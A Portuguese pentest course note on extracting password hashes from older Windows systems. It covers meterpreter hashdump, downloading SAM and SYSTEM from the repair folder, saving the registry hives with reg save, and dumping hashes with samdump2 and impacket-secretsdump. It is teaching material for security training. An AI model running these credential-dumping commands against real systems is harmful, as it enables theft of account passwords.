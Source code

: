 <h1 align="center"> Obtendo hashes em sistemas antigos do Windows</h1>
<hr>

Se ja tivermos acesso ao sistema com `meterpreter` usando o Metasploit podemos dar o seguinte comando para obtermos o hashes dos usuarios

```sh
meterpreter>hashdump
```

Mas oque a gente quer eh entender como que funciona todo esse processo , e se nao tivessemos o meterpreter? como a gente faz para conseguir esses hashes na maquina , vamos seguir oque a gente viu na aula passada.

Primeira coisa , vamos ver onde estamos no sistema e qual nossa permissao:

```
meterpreter>pwd
C:\Windows\system32

getuid
Server username: AUTORIDADE NT\SYSTEM
```

Vamos ate o diretorio config

```sh
meterpreter>cd config
meterpreter>dir
```

Se tentarmos baixar o arquivo SAM , veja que nos retornara um erro dizendo que nao podemos acessa-lo em execucao do sistema.

Entao como eh um sistema mais antigo , podemos acessar um outro diretorio:

```sh
meterpreter>pwd
C:\Windows

meterpreter>cd repair
meterpreter>pwd
C:\Windows\repair
meterpreter>dir
```

Lembrando que esse diretorio so existe em sistemas mais antigos , em sistemas recentes ele nao existe.

Entao neste diretorio `repair` vai conter o arquivo <span style='color:var(--mk-color-teal)'>SAM</span> , <span style='color:var(--mk-color-teal)'>System</span> na qual  a gente consegue baixar 😀

```sh
meterpreter> download sam
meterpreter> download system
```

Uma vez que a gente baixou os dois arquivos , podemos usar o software `samdump2`, esse software funciona so pra versoes antigas do Windows (Windows 2k/NT/XP/Vista).

Uma vez conhecido , podemos fazer:

```sh
meterpreter>samdump2 system sam
```

Feito isso nos trara os hashes,
Notem que eles nos traz alguns usuarios diferentes do hashdump do metasploit , isso porque nesse caso o backup que a gente conseguiu por conta de ser do `repair` nao estar atualiazado , ele nao eh um backup atualizado, dessa forma nao conseguimos obter a todos os usuarios do sistema e sim dos usuarios de quando o sistema foi gerado.

Como resolver esse problema entao ? poderiamos pegar uma shell diretorio naquele sistema e tentar utilizar o `reg` na qual a gente pode fazer consulta no registro do windows  , esse utilitario importantissimo contem varias funcoes , uma delas seria pra gente tentar capturar o <span style='color:var(--mk-color-teal)'>SAM</span> e o <span style='color:var(--mk-color-teal)'>System</span> direto do registro do Windows

```sh
C:\Windows\repair>cd .. ..
C:> reg /?
C:>reg save hklm\sam samOK
C:>reg save hklm\system systemOK
exit ;; para voltar ao meterpreter
```

Dai agora eh so a gente baixar o samOK e o systemOK:
```sh
meterpreter> download samOK
meterpreter> download systemOK
```

 Entao usamos denovo o samdum2 e notem a diferenca:
 ```sh
 samdump2 systemOK samOK
```

### Impacket

Um outro programa que a gente pode utilizar vem no pacote do impacket

```sh
impacket-secretsdump -sam samOK -system systemOK LOCAL
```

